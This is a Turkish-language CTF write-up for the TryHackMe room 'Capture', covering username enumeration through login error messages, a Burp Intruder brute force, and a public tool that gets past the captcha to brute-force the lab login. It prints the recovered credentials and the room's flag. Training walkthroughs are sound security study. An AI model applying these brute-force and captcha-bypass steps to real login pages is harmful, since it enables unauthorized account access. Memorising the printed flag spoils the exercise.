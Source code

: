 ```yaml
---
title: Capture
date: 2024-03-27 13:02:12
categories: [TryHackMe]
tags: [Easy]
image: images/flat.jpg
---
```


Login formunu bypass etmemiz istenmiş. 

---

İndirmemiz istenen zip dosyasında passwords ve usernames wordlistleri var. Brute force için bu wordlistleri kullanacağız.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Capture/images/1.png?raw=true)

Siteyi ziyaret ettim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Capture/images/2.png?raw=true)


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Capture/images/3.png?raw=true)

Error mesajı 'asd' kullanıcısının olmadığını söylüyor. Bu hata mesajını kullanarak önce username i bulabilirim.

Burp den isteği durdurup intruder'a atıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Capture/images/4.png?raw=true)

Payloads kısmından bize verilen usernames wordlistini seçiyorum ve saldırıyı başlatıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Capture/images/5.png?raw=true)

Sitede Captcha mevcut. Belirli bir istekten sonra "Too many bad login attempts" hatası alıyorum.

İnternette çözümü araştırırken bu oda için oluşturulmuş bir [tool](https://github.com/sakibulalikhan/thm-capture) gördüm.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Capture/images/6.png?raw=true)


Tek yapmamız gereken toolu çalıştırmak.

````console
┌──(root㉿kali)-[/opt]
└─# git clone https://github.com/sakibulalikhan/thm-capture.git                                   
Cloning into 'thm-capture'...
remote: Enumerating objects: 25, done.
remote: Counting objects: 100% (25/25), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 25 (delta 10), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (25/25), 16.32 KiB | 288.00 KiB/s, done.
Resolving deltas: 100% (10/10), done.
                                                                                                    
┌──(root㉿kali)-[/opt]
└─# cd thm-capture                                                                                                   
                                                                                                    
┌──(root㉿kali)-[/opt/thm-capture]
└─# python capture.py -t 10.10.49.141                     

      
▄▄▄█████▓ ██░ ██  ███▄ ▄███▓    ▄████▄   ▄▄▄       ██▓███  ▄▄▄█████▓ █    ██  ██▀███  ▓█████ 
▓  ██▒ ▓▒▓██░ ██▒▓██▒▀█▀ ██▒   ▒██▀ ▀█  ▒████▄    ▓██░  ██▒▓  ██▒ ▓▒ ██  ▓██▒▓██ ▒ ██▒▓█   ▀ 
▒ ▓██░ ▒░▒██▀▀██░▓██    ▓██░   ▒▓█    ▄ ▒██  ▀█▄  ▓██░ ██▓▒▒ ▓██░ ▒░▓██  ▒██░▓██ ░▄█ ▒▒███   
░ ▓██▓ ░ ░▓█ ░██ ▒██    ▒██    ▒▓▓▄ ▄██▒░██▄▄▄▄██ ▒██▄█▓▒ ▒░ ▓██▓ ░ ▓▓█  ░██░▒██▀▀█▄  ▒▓█  ▄ 
  ▒██▒ ░ ░▓█▒░██▓▒██▒   ░██▒   ▒ ▓███▀ ░ ▓█   ▓██▒▒██▒ ░  ░  ▒██▒ ░ ▒▒█████▓ ░██▓ ▒██▒░▒████▒
  ▒ ░░    ▒ ░░▒░▒░ ▒░   ░  ░   ░ ░▒ ▒  ░ ▒▒   ▓▒█░▒▓▒░ ░  ░  ▒ ░░   ░▒▓▒ ▒ ▒ ░ ▒▓ ░▒▓░░░ ▒░ ░
    ░     ▒ ░▒░ ░░  ░      ░     ░  ▒     ▒   ▒▒ ░░▒ ░         ░    ░░▒░ ░ ░   ░▒ ░ ▒░ ░ ░  ░
  ░       ░  ░░ ░░      ░      ░          ░   ▒   ░░         ░       ░░░ ░ ░   ░░   ░    ░   
          ░  ░  ░       ░      ░ ░            ░  ░                     ░        ░        ░  ░
                               ░                                                             

      

****************************************************************

* TryHackMe Room Link: https://tryhackme.com/room/capture      *

* Twitter: https://twitter.com/sakibulalikhan                  *

* Linkedin: https://www.linkedin.com/in/sakibulalikhan         *

****************************************************************


[+] Starting bruteforce with target URL: http://10.10.49.141/login

[+] Starting username brute force...

!!! Username Found: natalie

[+] Starting password brute force...

!!! Password Found: sk8board

!!! Flag: 7df2eabce36f02ca8ed7f237f77ea416
````

![fsoc](/images/fsoc.gif)
